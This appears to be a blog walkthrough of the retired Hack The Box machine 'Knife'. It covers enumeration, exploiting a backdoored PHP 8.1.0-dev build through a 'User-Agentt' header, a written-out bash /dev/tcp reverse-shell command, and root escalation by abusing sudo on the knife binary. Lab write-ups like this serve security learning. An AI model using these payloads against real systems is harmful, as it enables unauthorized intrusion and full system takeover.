 ```yaml
---
title: "Walktrough: HTB Knife"
namespace: htb-knife
language: en-US
category: Walkthrough
tags:
   - HackTheBox
   - HTB Easy
   - HTB Linux
date: 2021-08-28 12:00:00
header:
   teaser: https://i.imgur.com/U5A7c9y.png
   og_image:   https://i.imgur.com/U5A7c9y.png
redirect_from: /writeup/2021/08/htb-knife
---
```


Hello guys!

This week's machine will be **Knife**, another easy-rated Linux box from [Hack The Box](https://www.hackthebox.eu/), created by [MrKN16H](https://app.hackthebox.eu/users/98767).<!--more-->

:information_source: **Info**: Write-ups for Hack The Box machines are posted as soon as they’re retired.
{: .notice--info}

![HTB Knife](https://i.imgur.com/3IO9vBj.png){: .align-center}

This was a pretty straightforward box where you must pay attention to the details (in the case of the vulnerable web server) and always go for the low-hanging fruits first like abusing the `sudo` permissions user already have.

I hope you guys enjoy it!

## Enumeration

As usual, started with a quick `nmap` scan to check the published services on this box:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 17:50 -03
Nmap scan report for 10.10.10.242
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```

### 80/TCP - HTTP Service

Accessing the website we can see a simple institutional page from a health company, as below:

![HTB Knife - HTTP Service](https://i.imgur.com/oAbssxJ.png){: .align-center}

After accessing the website, gathered some information about the page, its components, and the server from which it was published using `whatweb,` and what called attention was the `X-Powered-By` header pointing to a **dev** version of **PHP 8.1.0**.

```bash
$ whatweb --color=never -a 3 10.10.10.242 | tee whatweb.txt
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], , Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Initial Access and User flag

As dev versions often contain vulnerabilities, decided to search it using `searchsploit` and found an RCE vulnerability as listed below:

```bash
$ searchsploit "8.1.0-dev"
---------------------------------------------------------------------- ----------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ----------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                   | php/webapps/49933.py
---------------------------------------------------------------------- ----------------------------
Shellcodes: No Results
```

This vulnerability consists in a backdor which was added in some commits of PHP source code by compromised accounts and, when a request arrives with a header `User-Agentt: "zerodiumsystem('cmd');"`, the `cmd` will be interpreted and executed in the system. The payload available emulate a non-interactive shell and, from it, started an interactive session using the payload `bash -c 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1'` which returned a session from **james**'s user account, where in his home directory I was able to read the contents of `user.txt`, obtaining the first flag.

```bash
james@knife:~$ id && hostname
uid=1000(james) gid=1000(james) groups=1000(james)
knife
james@knife:~$ cat user.txt
<redacted>
```

## Root flag

As usual, started with the command `sudo -l` and we were lucky once again, as output below:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
   (root) NOPASSWD: /usr/bin/knife              
```

Doing a quick search on this binary, found out that it's related to [Chef's Configuration Management Solution](https://www.chef.io/) and, according to [knife \| GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo) page, could be easily used to privesc to root, as below, allowing us to get the final flag :smiley:

```bash
james@knife:~$ sudo /usr/bin/knife --help                                                                                 Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

[...]

james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# cat root.txt
<redacted>
```

I hope you guys have enjoyed!

See you at the next post :smile:
